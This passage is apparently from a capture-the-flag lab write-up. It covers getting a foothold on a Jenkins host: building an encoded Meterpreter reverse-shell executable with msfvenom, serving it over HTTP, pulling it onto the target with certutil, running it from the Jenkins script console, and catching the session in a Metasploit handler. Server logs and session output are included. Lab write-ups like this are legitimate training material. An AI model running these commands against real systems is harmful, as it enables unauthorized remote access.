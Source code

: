 # Gaining a Foothold

Now on our attack box, or my Kali VM, I start up a simple python http listener. 
`python3 -m http.server 80`

Then generate our payload in the directory we're hosting our python "web server".
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<my VPN IP> LPORT=4444 -f exe -o meterpshell.exe`

We can use `ls -la` in the directory to get the size of this payload for one of our questions since we're using that same payload they recommend.
```
total 84
drwxr-xr-x 2 kali kali  4096 Jul  2 10:09 .
drwxr-xr-x 6 kali kali  4096 Jul  2 09:06 ..
-rw-r--r-- 1 kali kali 73802 Jul  2 10:09 meterpshell.exe
```

Now, we input our certutil.exe command.

![[JenkinsScriptConsoleUpload.png]]

After a few moments we get confirmation the file was uploaded.

![[JenkinsCertUtilUploadSuccessful.png]]

When we look at the web server we're hosting also confirms this:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.128.105 - - [02/Jul/2024 10:15:01] "GET /meterpshell.exe HTTP/1.1" 200 -
10.10.128.105 - - [02/Jul/2024 10:15:05] "GET /meterpshell.exe HTTP/1.1" 200 -
```

Now we can stop our little webserver and open msfconsole.
`service postgresql start`
`msfconsole`
And we want to set up our msfconsole listener.
`use exploit/multi/handler`
And then set our PAYLOAD as the reverseshell created before and the LHOST to our IP
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST <my VPN IP>`
And run it.
`run`

Now, in the Jenkins script console, let's execute our payload.
`println "meterpshell.exe".execute().text` 

Confirm we're on the box!
```
[*] Started reverse TCP handler on 10.13.62.120:4444 
[*] Sending stage (176198 bytes) to 10.10.128.105
[*] Meterpreter session 1 opened (10.13.62.120:4444 -> 10.10.128.105:49288) at 2024-07-02 10:25:42 -0400

meterpreter > 
```
# Privilege Escalation
